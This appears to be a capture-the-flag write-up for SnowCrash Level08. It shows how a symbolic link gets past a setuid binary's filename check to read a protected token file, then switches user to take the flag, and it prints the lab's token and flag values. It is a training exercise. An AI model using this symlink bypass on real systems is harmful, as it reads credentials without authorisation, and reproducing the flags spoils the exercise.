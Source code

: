 # Level08

## Hint

Weird we get different errors depending on the name of the file.

## Answer

Let's check our current directory:
```
level08@SnowCrash:~$ ll
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout*
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc*
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08*
-r-x------  1 level08 level08  675 Apr  3  2012 .profile*
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

We have an executable file, let's run it first !
```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

So we need a file to read, let's try to read the `token` file:
```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

Not that easy huh ? Let's try to read the `.bash_logout` file instead:
```
level08@SnowCrash:~$ ./level08 .bash_logout
level08: Unable to open .bash_logout: Permission denied
```

We have differents errors depending on the name of the file. However we cannot move nor copy the file `token` because we don't have reading permissions on it. In that case let's try a symbolic link *(while naming the file something else than `token`)*: 
```
level08@SnowCrash:~$ ln -s ~/token /tmp/flag
level08@SnowCrash:~$ ./level08 /tmp/flag
quif5eloekouj29ke0vouxean
```

Remember since this is a token we'll have to login to the user `flag08` first, let's login:

``` 
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```